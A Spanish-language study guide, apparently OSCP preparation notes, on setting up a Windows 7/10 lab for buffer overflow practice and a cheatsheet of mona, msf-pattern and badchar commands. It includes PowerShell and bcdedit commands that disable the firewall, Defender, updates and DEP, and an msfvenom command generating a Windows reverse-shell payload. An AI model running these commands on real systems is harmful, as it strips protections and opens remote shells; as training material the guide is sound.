# Preparar entorno

Para poder explotar o practicar de manera controlada y adecuada sin  inconvenientes buffer overflow necesitaremos un ambiente en la que podamos realizar pruebas, por lo que realizaremos las configuraciones necesarias para realizar el laboratorio en un windows 7 o windows 10.

# Windows 7

## Deshabilitar el firewall de Windows

Para deshabilitar seleccionaremos `Panel de Control` y luego `Sistema de seguridad` 



Luego seleccionaremos `Firewall de windows`



Para hacer click en `Activar o desactivar Firewall de windows`



Y luego seleccionar `Desactivar ...` en ambos casos, presionamos el boton aceptar y se guardara y se desactivo el firewall con exito



## Deshabilitar las actualizaciones de Windows

Ahora desactivaremos las actualizaciones de windows, para lo que iremos a `Sistema y seguridad` 



Luego elegiremos `windows update` 



Seguiremos con `Cambiar configuración`



Y seleccionaremos `No buscar actualizaciones` 




## Deshabilitar Windows Defender

Para desactivar el defender podemos ir a `windows defender`



o desde la PowerShell realizar lo siguiente:

```php
# Deshabilitar Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# Deshabilitar el servicio Windows Defender Antivirus
Set-Service -Name WinDefend -StartupType Disabled
Stop-Service -Name WinDefend

```
## Deshabilitar el Dep

```php
bcdedit.exe /set {current} nx AlwaysOff
```

# Windows 10

## Deshabilitar el firewall de Windows

Para deshabilitar el firewall primero abriremos el `panel de control` y luego seleccionaremos `sistema y seguridad`



Luego seleccionaremos `Firewall de windows Defender`



Y realizaremos click en `Activar o desactivar el Firewall de windows Defender`



Luego de hacer click iremos a la siguiente sección, en donde desactivaremos la `configuracion de red privada` y `firewall de windows defender`



### Powershell

También podemos realizar lo anterior desde la powershell :

Puedes deshabilitar el Firewall de Windows utilizando PowerShell con los siguientes comandos:

```php
# Deshabilitar el Firewall de Windows
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
````

Este comando deshabilitará el Firewall de Windows para los perfiles de red Domain, Public y Private. Si deseas deshabilitar el Firewall solo para un perfil específico, puedes cambiar los perfiles en el comando. Por ejemplo, para deshabilitarlo solo para el perfil de red privada, usarías:

```php
Set-NetFirewallProfile -Profile Private -Enabled False
```

## Deshabilitar las actualizaciones de Windows


```php
# Deshabilitar las actualizaciones automáticas
Set-ItemProperty -Path "HKLM:\SOFTWARE\Policies\Microsoft\Windows\WindowsUpdate\AU" -Name "NoAutoUpdate" -Value 1

# Detener el servicio de actualización de Windows
Stop-Service -Name wuauserv
Set-Service -Name wuauserv -StartupType Disabled

```
## Deshabilitar Windows Defender

```php
# Deshabilitar Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true

# Deshabilitar el servicio Windows Defender Antivirus
Set-Service -Name WinDefend -StartupType Disabled
Stop-Service -Name WinDefend

```
## Deshabilitar el Dep

```php
bcdedit.exe /set {current} nx AlwaysOff
```
## Mona

Su instalación es bastante sencilla, descargamos el script [mona.py](https://github.com/corelan/mona) de su repositorio oficial. Este script lo movemos a la siguiente ruta:

`C:\\Archivos de programa\\Immunity Inc\\Immunity Debugger\\PyCommands`
`C:\\Program Files\\Immunity Inc\\Immunity Debugger\\PyCommands`

Y estaría listo para ser usando en el Immunity Debugger
## Desinstalar actualizaciones de seguridad

https://github.com/0xBEN/RemoveWindowsSecurityPatches?ref=benheater.com
https://www.immunityinc.com/products/debugger/?ref=benheater.com
https://github.com/corelan/mona/blob/master/mona.py?ref=benheater.com

# Cheatsheet

- Generar caracteres para encontrar el numero de offset

```php
❯ msf-pattern_create -l 2000
```

- Encontrar el numero de offset segun el EIP

```php
❯ msf-pattern_offset -q 6F43396E
```


- Crear directorio de trabajo:

```php
!mona config -set workingfolder <ruta>\%p
```

ejemplo: 

```php
!mona config -set workingfolder C:\Users\seven\Desktop\OSCP
```

- Generar un array de bytes de la siguiente forma:

```php
!mona bytearray
```

- Badchars :

```php
"\x00\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

- Obtener badcharacters con la dirección de ESP

```php
!mona compare -f <especificamos la ruta del bytearray.bin> -a <dirección del ESP>
!mona compare -f  C:\Users\seven\Desktop\OSCP\bytearray.bin -a 6F43396E
```

- Quitar los badchars del byarray

```php
!mona bytearray -cpb "<badchars>"
!mona bytearray -cpb "\x00"
```

- Obtener la dirección de `jmp ESP` haremos uso de los babchars que se encontró

```php
!mona jmp -r esp -cpb "\x00\x0a"
```

La dirección que nos muestra es igual al anterior método:

```php
0x080414C3
0x080416BF
```

- Luego de obtener la dirección colocaremos de manera inversa en nuestro script:

```php
"\xc3\x14\x04\x08"  
```

- Payload

```php
❯ msfvenom -p windows/shell_reverse_tcp EXITFUNC=thread LHOST=192.168.98.22 LPORT=443 --platform windows -b "\x00\x0a" -f c
```
## Plataformas y aplicaciones para practicar:

- [https://tryhackme.com/room/bufferoverflowprep](https://tryhackme.com/room/bufferoverflowprep)
- [https://tryhackme.com/jr/brainstorm](https://tryhackme.com/jr/brainstorm)
- [https://tryhackme.com/jr/gatekeeper](https://tryhackme.com/jr/gatekeeper)
- [https://tryhackme.com/room/brainpan ](https://tryhackme.com/room/brainpan)
- [https://www.w0lff4ng.org/stack-buffer-overflow-basico-parte-2/](https://www.w0lff4ng.org/stack-buffer-overflow-basico-parte-2/) 
- [https://rinku.tech/buffer-overflow/](https://rinku.tech/buffer-overflow/)

